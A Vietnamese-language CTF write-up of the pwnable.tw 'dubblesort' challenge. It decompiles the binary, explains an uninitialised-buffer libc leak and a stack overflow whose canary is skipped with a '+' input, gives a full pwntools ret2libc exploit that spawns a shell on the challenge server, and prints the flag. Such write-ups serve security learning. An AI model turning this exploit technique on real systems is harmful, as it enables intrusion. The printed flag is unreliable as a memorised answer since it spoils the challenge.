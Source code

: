 **1. TÌm lỗi**

Dùng lệnh `file` kiếm tra:

```
dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped
```

---> Mở bằng IDA ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  _BYTE *v4; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int v8; // [esp+18h] [ebp-74h] BYREF
  _BYTE v9[32]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int v11; // [esp+7Ch] [ebp-10h]

  v11 = __readgsdword(0x14u);
  sub_8B5();
  __printf_chk(1, "What your name :");
  read(0, buf, 0x40u);
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &v8);
  v3 = v8;
  if ( v8 )
  {
    v4 = v9;
    for ( i = 0; i < v8; ++i )
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      v3 = v8;
      v4 += 4;
    }
  }
  sub_931(v9, v3);
  puts("Result :");
  if ( v8 )
  {
    for ( j = 0; j < v8; ++j )
      __printf_chk(1, "%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v11 )
    sub_BA0();
  return result;
}
```

- Đầu tiên, các biến được khai báo. v3 và v8 là các biến kiểu unsigned int, v4 là một con trỏ kiểu _BYTE, i và j là các biến kiểu unsigned int được sử dụng trong vòng lặp, result là biến kết quả kiểu int. v9 là một mảng kiểu _BYTE có độ dài 32 byte được sử dụng để lưu trữ các số cần sắp xếp, buf là một mảng kiểu char có độ dài 64 byte được sử dụng để lưu trữ tên người dùng nhập vào.

- Chương trình yêu cầu người dùng nhập tên bằng cách sử dụng hàm __printf_chk để in ra màn hình console. Sau đó, hàm read được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào biến buf. Ở đây biến `buf` chưa được khởi tạo nên lúc nhập vào sẽ không có nyte NULL và khi in ra sử dụng `%s` thì đến khi nào gặp byte null thì dừng.

- Tiếp theo, chương trình yêu cầu người dùng nhập số lượng số cần sắp xếp. Hàm __printf_chk được sử dụng để in ra màn hình console và hàm __isoc99_scanf được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào biến v8.

- Nếu v8 khác 0, chương trình sẽ yêu cầu người dùng nhập các số cần sắp xếp. Với mỗi số, hàm __printf_chk được sử dụng để hiển thị thông báo cho người dùng nhập số cần sắp xếp, hàm fflush được sử dụng để xóa bộ đệm đầu ra và hàm __isoc99_scanf được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào mảng v9. Lúc này có thể nhập quá số phần tử cho phép trong mảng -> Có lỗi bof.

- Sau khi các số đã được nhập, chương trình sẽ gọi hàm sub_931 để sắp xếp các số đó.

- Cuối cùng, kết quả sắp xếp sẽ được hiển thị trên màn hình console. Hàm puts được sử dụng để hiển thị thông báo cho người dùng và vòng lặp for được sử dụng để in ra các số đã sắp xếp.

Dùng lệnh `checksec` kiểm tra:

```
[*] '/mnt/d/CTF_Writeup/pwnable/dubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Canyry cũng đã được bật.

**2. Ý tưởng**

- Ở lỗi đầu tiên có thể leak được địa chỉ libc và từ đó gọi hàm `system`

- Ở lỗi thứ 2 có thể tính toán địa chỉ `canary` cách mảng đó bao nhiêu và nhập dấu + thì địa chỉ canary sẽ được được nguyên.

**3. Khai thác**

Đặt breakpoint sau hàm `__printf_chk` thứ 2 để xem dữ liệu xung quanh biến buf như thế nào.

![vmmap.png](photo/vmmap.png)

Vì không truyền biến vào %s nên tìm ở địa chỉ cách 24 byte có chứa 1 địa chỉ trong dải libc nên khi mình mình nhập 24 byte rác thì sẽ có thể leak được.

```
payload = b'a'*24
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
```

Thử chạy nên kiểm tra lại xem sao thì thấy có byte null ở libc

![check.png](photo/check.png)

Nên ghi đè 1 byte rác rồi sau đó trừ đúng giá trị byte rác đó sẽ được giá trị libc

```
payload = b'a'*25
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
libc.address = leak - 0x61 - 0x1b0000
log.info("libc base: " + hex(libc.address))
```

 Ta thấy địa chỉ canary cách mảng v9 0x18 byte hay 24 byte. Nên nếu nhập dấu + ở vị trí 24 thì giá trị canary sẽ được giữ nguyên.

 Tiếp theo đi tìm địa chỉ hàm `system` và chuỗi `/bin/sh`:

 ```
 audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/pwnable/dubblesort$ readelf -s libc_32.so.6 | grep system
  1457: 0003a940    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/pwnable/dubblesort$ strings libc_32.so.6 -tx | grep "/bin/sh"
 158e8b /bin/sh
 ```

Như vậy đưa thứ tự 24 byte rác + '+' + 4 byte rác + system + bin_sh

Đặt breakpoint ở `ret` để xem có trả về sysrem không.

![ret.png](photo/ret.png)

Như vậy chương trình đã trả về hàm `system` như mình mong muốn. ta có script như sau:

 ```
from pwn import *

exe = ELF('dubblesort_patched', checksec = False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10101)
libc = ELF('libc_32.so.6', checksec = False)

#input()
payload = b'a'*29
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*28)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
libc.address = leak - 0x61 - 0x1b0000
log.info("libc base: " + hex(libc.address))

system = libc.sym['system']
log.info("system: " + hex(system))
bin_sh = next(libc.search(b'/bin/sh'))


r.sendlineafter(b'sort :', b'35')
for i in range(24):
  r.sendlineafter(b'number : ', b'1')
r.sendlineafter(b'number : ', b'+')
for i in range(8):
  r.sendlineafter(b'number : ', str(system))
r.sendlineafter(b'number : ', str(bin_sh))
r.sendlineafter(b'number : ', str(bin_sh))

r.interactive()
``` 

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: FLAG{Dubo_duBo_dub0_s0rttttttt}`